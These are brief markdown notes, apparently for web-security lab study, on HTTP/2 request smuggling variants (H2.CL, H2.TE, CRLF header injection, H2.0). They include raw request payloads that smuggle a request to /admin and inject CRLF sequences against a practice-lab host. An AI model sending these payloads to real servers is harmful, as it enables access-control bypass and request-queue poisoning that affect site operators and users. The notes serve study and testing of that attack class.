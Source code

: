 

#### H2.CL

```http
:method	POST
:path	/example
:authority	vulnerable-website.com
content-type	application/x-www-form-urlencoded
content-length	0
--------- data frame -------------
GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10

x=1
```


### H2.TE

Similar to content-lenght include transfer-encoding chunked header


#### H2 CRLF header injection

Smuggling a complete request in the header (key/value based on how frontend server parses and downgraded to HTTP/1.1), which leads to request queue poisoning

(Don't add \r\n at the smuggled request the backend server adds behalf on you for the end of the header)
```
foo: bar\r\n
\r\n
GET /404 HTTP/1.1\r\n
Host: 0ab100ec040a2e948148d43b00340066.web-security-academy.net
```


- the CRLF Values can be injected in custom header key/values and in any of the http2 pseudo headers like path
  
  

### H2.0

similar to Cl.0, but the backend is taken by surprise getting a post request body on certain endpoints leads to polluting the connection pipeline.

```

```